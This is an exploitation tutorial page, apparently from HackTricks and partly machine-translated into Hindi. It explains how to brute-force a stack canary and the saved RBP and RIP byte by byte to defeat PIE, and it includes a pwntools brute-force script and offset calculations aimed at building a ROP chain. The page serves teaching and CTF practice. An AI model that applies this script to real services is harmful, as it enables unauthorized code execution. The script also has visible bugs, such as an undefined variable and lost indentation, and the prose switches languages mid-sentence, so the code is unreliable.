 # BF Addresses in the Stack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**यदि आप एक बाइनरी का सामना कर रहे हैं जो एक कैनरी और PIE (पोजीशन इंडिपेंडेंट एक्सीक्यूटेबल) द्वारा सुरक्षित है, तो आपको शायद उन्हें बायपास करने का एक तरीका खोजने की आवश्यकता है।**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
ध्यान दें कि **`checksec`** यह नहीं पहचान सकता है कि एक बाइनरी कैनरी द्वारा सुरक्षित है यदि इसे स्थिर रूप से संकलित किया गया था और यह कार्य को पहचानने में सक्षम नहीं है।\
हालांकि, आप इसे मैन्युअल रूप से देख सकते हैं यदि आप पाते हैं कि एक मान एक फ़ंक्शन कॉल की शुरुआत में स्टैक में सहेजा गया है और इस मान की जांच निकासी से पहले की जाती है।
{% endhint %}

## Brute-Force Addresses

PIE को बायपास करने के लिए आपको **कुछ पते लीक करने की आवश्यकता है**। और यदि बाइनरी कोई पते लीक नहीं कर रही है, तो इसे करने का सबसे अच्छा तरीका है **कमजोर फ़ंक्शन में स्टैक में सहेजे गए RBP और RIP को ब्रूट-फोर्स करना।**\
उदाहरण के लिए, यदि एक बाइनरी को **कैनरी** और **PIE** दोनों का उपयोग करके सुरक्षित किया गया है, तो आप कैनरी को ब्रूट-फोर्स करना शुरू कर सकते हैं, फिर **अगले** 8 बाइट्स (x64) सहेजे गए **RBP** होंगे और **अगले** 8 बाइट्स सहेजे गए **RIP** होंगे।

{% hint style="success" %}
यह माना जाता है कि स्टैक के अंदर लौटने वाला पता मुख्य बाइनरी कोड से संबंधित है, जो, यदि कमजोर बिंदु बाइनरी कोड में स्थित है, तो आमतौर पर ऐसा ही होगा।
{% endhint %}

बाइनरी से RBP और RIP को ब्रूट-फोर्स करने के लिए आप यह पता लगा सकते हैं कि एक मान्य अनुमानित बाइट सही है यदि प्रोग्राम कुछ आउटपुट करता है या यह बस क्रैश नहीं होता है। **कैनरी को ब्रूट-फोर्स करने के लिए प्रदान की गई** **समान फ़ंक्शन** का उपयोग RBP और RIP को ब्रूट-फोर्स करने के लिए किया जा सकता है:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
The last thing you need to defeat the PIE is to calculate **useful addresses from the leaked** addresses: the **RBP** and the **RIP**.

From the **RBP** you can calculate **जहाँ आप अपने शेल को स्टैक में लिख रहे हैं**. This can be very useful to know where are you going to write the string _"/bin/sh\x00"_ inside the stack. To calculate the distance between the leaked RBP and your shellcode you can just put a **breakpoint after leaking the RBP** an check **आपका शेलकोड कहाँ स्थित है**, then, you can calculate the distance between the shellcode and the RBP:
```python
INI_SHELLCODE = RBP - 1152
```
From the **RIP** you can calculate the **base address of the PIE binary** which is what you are going to need to create a **valid ROP chain**.\
To calculate the base address just do `objdump -d vunbinary` and check the disassemble latest addresses:

![](<../../../../.gitbook/assets/image (145).png>)

इस उदाहरण में आप देख सकते हैं कि सभी कोड को स्थानांतरित करने के लिए केवल **1 बाइट और आधा** आवश्यक है, फिर, इस स्थिति में आधार पता **लीक किए गए RIP पर "000" के साथ समाप्त होगा**। उदाहरण के लिए, यदि आपने `0x562002970ecf` लीक किया, तो आधार पता `0x562002970000` है।
```python
elf.address = RIP - (RIP & 0xfff)
```
{% hint style="success" %}
सीखें और अभ्यास करें AWS हैकिंग:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और अभ्यास करें GCP हैकिंग: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो करें**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें.

</details>
{% endhint %}
